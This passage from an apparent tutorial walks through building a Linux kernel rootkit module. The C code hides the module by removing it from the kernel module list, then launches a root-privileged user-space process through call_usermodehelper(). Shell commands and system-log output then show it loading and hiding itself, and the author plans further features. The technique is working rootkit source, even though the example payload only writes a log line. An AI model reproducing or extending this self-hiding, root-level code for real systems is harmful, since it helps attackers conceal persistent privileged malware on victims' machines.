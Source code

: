 ```c

static int __init rootkit_init(void)
{
  struct module *mod = THIS_MODULE;
  printk(KERN_INFO "rootkit_mod loading.\n");

  printk(KERN_INFO "rootkit_mod hidind itself.\n");

  mutex_lock(&module_mutex);
  list_del(&mod->list);
  mutex_unlock(&module_mutex);

  msleep(1000);
  simple_usp_runner();

  printk(KERN_INFO "rootkit_mod done.\n");
  return 0;
}
module_init(rootkit_init);

static void __exit rootkit_exit(void)
{
  printk(KERN_INFO "rootkit_mod unloaded.\n");
}
module_exit(rootkit_exit);
```

Ok, now we are using the **call_usermodehelper()** function to write to system loger. (What exactly we are doing is run logger with parameter that contain array of chars). The key point is that this process that we run in user space is with root privileges so basically we can do everything that we can do from the root console.

Let's try and then run our example:

```bash
root@a20-olimex:~$ insmod rootkitmod_time_usp.ko
```

We run our second rootkit let's have a look at the system logs to check if our module runs correctly.

```bash
root@a20-olimex:~$ tail -f /var/log/messages

localhost kernel: [   31.817563] [DISP] layer allocated: 0,101
localhost kernel: [  178.496962] rootkit_mod loading.
localhost kernel: [  178.502902] rootkit_mod hidind itself.
localhost logger: root!
localhost kernel: [  179.522694] rootkit_mod done.
```

Ok everything was nice, printk goes into dmesg, "root!" message goes to logger, we created a simple rootkit.
So what can be next.. **msleep()** looks dummy in our cool example, let's replace it with something more awesome, let's create a timer that will asynchronously call our module!
